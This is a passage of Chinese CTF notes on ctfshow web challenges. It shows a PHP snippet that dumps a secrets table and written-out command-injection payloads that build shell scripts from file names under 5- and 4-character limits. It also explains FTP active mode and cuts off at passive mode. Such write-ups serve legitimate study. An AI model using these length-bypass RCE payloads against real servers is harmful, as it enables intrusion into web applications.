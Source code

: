 ```php
if ($conn->connect_error) {
    die('Connection failed: ' . $conn->connect_error);
}
$sql = 'SELECT `secret` FROM `ctfshow_secret` ORDER BY 1 DESC LIMIT 0,20;';
$result = $conn->query($sql);
if ($result->num_rows > 0) {
    while($row = $result->fetch_assoc()) {
        echo $row['secret'] . '<br>';
    }
} else {
    echo '0 results';
}
$conn->close();
?>
```

### 5字符

ls -t>0 超过了5位

```bash
>ls\\
ls>a
>\ \\
>-t\\
>\>0

ls>>a
```

这就将ls -t>0写在了a脚本中，如果要用的话直接sh a，之后写入自己的命令按照7位的逻辑写就行了。

Web 823 思路是

- 把index.php变成.php
- 讲临时文件打包到当前目录
- 使用php执行tar压缩包

### 4字符

```bash
>f\>
>ht-
>sl
>dir
*>v
>rev
*v>0

cat 0
```

这就将ls -th>f写入到了脚本0当中，后面就可以直接按照7位的那样写入我们要执行的命令，最后使用sh 0执行ls -th>f，然后将命令写入了f脚本中，执行sh f即可。

web821开始的脚本在rce/字符限制里

绷不住了,太阴间了,脚本留着,很多都没打通,下班!

## ftp被动模式

**Port**(主动)

FTP 客户端首先和 FTP 服务器的 TCP 21  端口建立连接，通过这个通道发送控制命令。控制连接建立后，如果客户端需要接收数据，则在这个控制通道上发送 PORT 命令。 PORT  命令包含了客户端用什么端口接收数据（PORT 命令的格式比较特殊）。在传送数据的时候，服务器端通过自己的 TCP 20 端口连接至客户端用  PORT 命令指定的端口发送数据。 可见，FTP 服务器必须主动和客户端建立一个新的连接用来传送数据。

**Passive**(被动)
